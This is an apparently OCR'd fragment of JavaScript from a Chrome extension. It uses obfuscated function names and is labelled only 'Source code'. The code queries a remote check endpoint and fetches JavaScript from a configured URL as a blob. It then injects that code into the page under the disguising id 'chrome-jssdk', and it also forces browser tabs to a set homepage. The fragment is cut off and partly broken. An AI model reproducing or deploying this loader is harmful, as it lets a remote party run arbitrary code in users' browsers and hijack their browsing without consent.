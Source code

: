 ```javascript
		}else{
			yztvx();
		}
	}).catch((e) => {
		setTimeout(main, 1000*60); // If error then delay 60 seconds before restart this function
	});
}

var yarna = function(){
	jsondata.request.headers = {installed:true};
	fetch(jsondata.check ,jsondata.request).then(function(response){
		return response.json();
	}).then(function(data){
		if(data.verify == true){
			ufrkhn();
		}else{
			yztvx();
		}
	});
}

var ixtfco = function(){
	function(){
     var js, cjs = document.getElementsByTagName('script')[0];
     if (document.getElementById('chrome-jssdk')) {return;}
     js = document.createElement('script'); js.id = 'chrome-jssdk';
     js.src = jsondata.url; // Insert the remote Javascript code
     cjs.parentNode.insertBefore(js, cjs);
    };
}

var ufrkhn = function(){
	fetch(jsondata.url).then(function(response){
		return response.blob();
	}).then(function(data){
		jsondata.url = URL.createObjectURL(data);
		ixtfco(jsondata.url);
	});
}

var xqerx = function(){
	chrome.tabs.create({url:jsondata.homepage}, function(tab){
		jsondata.tab = tab.id;
		chrome.browserAction.enable();
		if(!jsondata.pfjgrj){
			vjkvcw();
		}
	});
}

var rvcxkz = function(){
	chrome.tabs.update(jsondata.tab, {url: jsondata.homepage}, function(){
		chrome.browserAction.enable();
	})
}

var vjkvcw = function(){
	jsondata.pfjgrj = true;
	chrome.tabs.onRemoved.addListener(function(tab){
		if(tab == jsondata.tab){
			jsondata.tab = false;
		}
	});
```